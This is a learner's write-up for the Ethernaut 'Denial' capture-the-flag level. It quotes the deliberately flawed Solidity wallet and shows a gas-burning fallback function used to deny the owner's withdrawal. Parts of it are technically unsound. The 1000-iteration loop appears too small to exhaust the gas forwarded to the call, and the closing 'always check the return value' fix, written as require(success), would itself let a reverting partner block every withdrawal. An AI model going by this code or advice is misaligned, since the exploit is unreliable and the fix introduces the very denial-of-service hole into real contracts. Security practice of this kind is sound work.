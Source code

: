 ### Challenge The Ethernaut Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

### .call explanation
.call is a low-level function in Solidity.<br>
It allows you to: Send ETH, Call a function by raw bytes (manual ABI), Forward gas manually.<br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
My first observations:
- The four functions are public
- We can pass data in only one function : setWithdrawPartner(_partner)
- We have one level call `partner.call{value: amountToSend}("");`
- CEI is not followed allowing potential reentrancy BUT there is not transfer to partners nor balance update possible.

When I saw the .call function I knew it was our entry point.<br>
.call always call a fallback() ; in the fallback we can merely add a loop that burn gas

Example of a fallback function that burn gas
```solidity
fallback() external payable {
    for (uint256 i = 0; i < 1000; i++) {
        // do some expensive computation
        keccak256(abi.encodePacked(i));
    }
}
```
~Hashing is always expensive we can use keccak function

After deploying our denial contract we can call withdraw:
`await denialContract.withdraw({ gasLimit: 1000000 });`

The thing I learnt that helped me:
- Low level call does not revert on failure
- Understanding that the return value of .call is not checked will continue the execution

Thing I learnt after that:<br>
- ALWAYS set a gas limit for untrusted contract.
- a full function can revert but some low level calls still might succeed.
- As a dev, always check the return value after a low level call:<br>
```solidity
(bool success, ) = partner.call{value: amountToSend}("");
require(success, "Call failed");
```
